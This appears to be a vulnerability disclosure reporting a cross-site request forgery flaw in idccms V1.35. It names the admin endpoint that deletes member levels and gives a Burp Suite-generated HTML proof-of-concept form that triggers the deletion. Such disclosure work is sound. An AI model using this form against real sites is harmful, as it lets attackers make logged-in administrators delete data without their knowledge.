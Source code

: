 
target:http://idccms.com/
version: V1.35

idccms V1.35 was discovered to contain a Cross-Site Request Forgery (CSRF) via the component  http://127.0.0.1:80/admin/userLevel_deal.php?mudi=del&dataType=&dataTypeCN=%E4%BC%9A%E5%91%98%E7%AD%89%E7%BA%A7%E8%AE%BE%E7%BD%AE&theme=%E5%88%9D%E5%AD%A6%E4%B9%8D%E7%BB%83&dataID=2

POC:
```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://127.0.0.1:80/admin/userLevel_deal.php?mudi=del&dataType=&dataTypeCN=%E4%BC%9A%E5%91%98%E7%AD%89%E7%BA%A7%E8%AE%BE%E7%BD%AE&theme=%E5%88%9D%E5%AD%A6%E4%B9%8D%E7%BB%83&dataID=2" method="POST">
      
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```
